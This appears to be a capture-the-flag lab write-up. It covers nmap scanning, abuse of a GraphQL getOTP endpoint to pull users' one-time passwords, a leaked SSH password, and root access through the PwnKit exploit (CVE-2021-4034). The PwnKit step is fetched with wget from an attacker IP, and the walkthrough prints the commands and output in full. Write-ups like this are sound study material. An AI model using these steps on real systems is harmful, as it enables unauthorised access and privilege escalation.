










# Network Enumeration

```bash
PORT      STATE    SERVICE                                         
22/tcp    open     ssh                    
80/tcp    open     http              
5132/tcp  open     unknown                          
8433/tcp  open     unknown 

PORT      STATE  SERVICE VERSION                                                                                                                                                                                                            
80/tcp    open   http    nginx 1.18.0 (Ubuntu)
|_http-title: Under Maintainence                                                                                                                                   
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                 
5132/tcp  open   unknown                                                                                                                                             
8433/tcp  open   http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
```

 # Web Enumeration



Check the source code that said port 8433 with a path graphql path.

Then we can running the listUsers on 8433.



Try to get the OTP. Cause the port 5132 inneed.



For peter.

```json
{
  getOTP(username:"peter")
}
```

Response

```json
{
  "data": {
    "getOTP": "Your One Time Password is: vNENpUh1s132OiTv"
  }
}
```

For Jason

```json
{
  getOTP(username:"jason")
}
```

Response

```json
{
  "data": {
    "getOTP": "Your One Time password is: BlZWkCHYN4muxkbv"
  }
}
```

The password need to generate every times. Use `nc` to login.



Now try to list and read some message.

```bash
$ read 2345
Not authorized to read
$ read 1893
Not authorized to read
$ read 2347
Not authorized to read
$ read 1277
Not authorized to read
$ read 0
Not authorized to read
$ read 234
Message No: #234

Hey, Please change your password ASAP. You know the password policy, using weak password isn't allowed. And peter@safe is very weak, use https://password.kaspersky.com/ to check the strength of the password.

Attachment: none
```

Get peter's password is `peter:peter@safe`, try to login with ssh.



It's useful.

# PE

## Information Collection

### Basic Information



### Active Ports



### Users



### Useful software



## Use Pwnkit to PE

```bash
peter@depreciated:~$ wget 192.168.45.166/CVE-2021-4034.tar.gz
--2023-08-17 09:32:59--  http://192.168.45.166/CVE-2021-4034.tar.gz
Connecting to 192.168.45.166:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 41448 (40K) [application/gzip]
Saving to: ‘CVE-2021-4034.tar.gz’

CVE-2021-4034.tar.gz       100%[========================================>]  40.48K  84.6KB/s    in 0.5s    

2023-08-17 09:33:00 (84.6 KB/s) - ‘CVE-2021-4034.tar.gz’ saved [41448/41448]

peter@depreciated:~$ tar -zxvf CVE-2021-4034.tar.gz 
peter@depreciated:~$ ls
CVE-2021-4034  CVE-2021-4034.tar.gz  dirty  dirty.c  linpeas.sh  local.txt  PwnKit.zip  snap
peter@depreciated:~$ cd CVE-2021-4034/
peter@depreciated:~/CVE-2021-4034$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
peter@depreciated:~/CVE-2021-4034$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),1000(peter)
# whoami;cat /root/proof.txt
root
00b5111115f37a32fd51b679c825947f
# 

```


